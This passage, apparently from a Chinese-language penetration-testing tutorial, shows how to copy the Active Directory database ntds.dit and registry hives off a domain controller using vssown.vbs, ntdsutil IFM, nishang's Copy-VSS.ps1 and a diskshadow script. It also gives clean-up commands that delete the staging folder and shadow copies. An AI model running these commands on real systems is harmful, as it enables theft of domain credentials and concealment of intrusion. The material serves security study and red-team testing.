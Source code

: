 删除卷影拷贝

```
cscript vssown.vbs /delete {22B93FE6-D53A-4ECA-BD5A-7A2A68203EF8}
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908152359.png)

### IFM

除了上面介绍的通过执行命令来提取 ntds.dit，也可以通过创建一个 IFM 的方式获取 ntds.dit

在使用 ntdsutil 创建媒体安装集（IFM）时，需要进行生成快照、加载、将 ntds.dit 和计算机的 SAM 文件复制到目标文件夹中等操作，这些操作也可以通过 PowerShell 或 VMI 远程执行。

在域控中以管理员模式打开命令行环境，输入命令

````
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
````

此时 ntds.dit 将被保存在 C:\test\Active Directory 下，SYSTEN 和 SECURITY 两个文件将被保存在 C:\test\registry 文件夹下

将 ntds.dit 拖回本地后，在目标机器上将 test 文件夹删除

```
rmdir /s/q C:\test
```

### Copy-VSS.ps1

nishang 工具包里的 Copy-VSS.ps1 也可以将 ntds.dit 提取出来，nishang 工具包地址：[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-vss
或者
PowerShell -Exec bypass -C "Import-module .\Copy-VSS.ps1;Copy-vss"
```

通过该脚本，可以将 SAM、SYSTEM，ntds.dit 复制到与 ps1 脚本相同的目录下。

### diskshadow

diskshadow 和 vshadow 功能类似，不过 vshadow 是包含在 Windows SDK 里的，因此实际应用的时候还需要将其上传到目标机器上。

> diskshadow 有交互模式和非交互模式，在使用交互模式时，需要在图形化界面里操作

首先创建一个 txt 文件，内容如下：

```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% k:
exec "C:\windows\system32\cmd.exe" /c copy k:\Windows\NTDS\ntds.dit C:\ntds.dit
delete shadows all
list shadows all
reset
exit
```
